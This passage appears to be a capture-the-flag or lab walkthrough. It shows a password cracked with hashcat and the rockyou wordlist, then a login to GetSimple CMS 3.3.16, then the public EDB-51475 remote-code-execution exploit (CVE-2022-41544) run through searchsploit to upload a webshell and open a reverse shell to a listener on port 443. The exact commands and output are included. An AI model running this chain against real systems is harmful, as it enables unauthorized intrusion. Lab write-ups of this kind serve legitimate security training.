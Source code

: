 ```
Time.Estimated...: Tue May  7 06:15:53 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6169.1 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 6144/14344385 (0.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: horoscope -> hawkeye
Hardware.Mon.#1..: Util: 23%

Started: Tue May  7 06:15:52 2024
Stopped: Tue May  7 06:15:55 2024

```

The password cracked within seconds, we now have credentials for the login page `coolranger:ranger1`

Enumeration of the website, we find this application and version `GetSimple CMS – Version 3.3.16`

We also find a single file uploaded in the Files tab called `ParkSupervisorNotes.txt`.  This appears to be the personal notes from a park ranger supervisor, notably at the bottom it mentions their website has been hacked before, and they are implementing new firewall rules, but leaving `ports 443 and 8000 open`.

Upon searching for the web application software and version, we find this site is potentially vulnerable to Remote Code Execution with a Proof of Concept posted on the exploit database with EDB-ID 51475. We setup a listener, using one of the ports we know is open from the discovered notes, and run the exploit code to catch a reverse shell.

```
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# searchsploit -m 51475
  Exploit: GetSimple CMS v3.3.16 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/51475
     Path: /usr/share/exploitdb/exploits/php/webapps/51475.py
    Codes: CVE-2022-41544
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/Documents/UGC/ParkMgmt/51475.py

```

```
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# python3 51475.py 192.168.174.140 / 192.168.174.128:443 coolranger
/home/kali/Documents/UGC/ParkMgmt/51475.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444
C      V V   E         2   00  0  2    2          4  11     5    4    4
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4
 
[+] the version 3.3.16 is vulnrable to CVE-2022-41544
[+] apikey obtained 9344e8fd7e174240ddc1513643e64102
[+] csrf token obtained
[+] Shell uploaded successfully!
[+] Webshell trigged successfully!
```
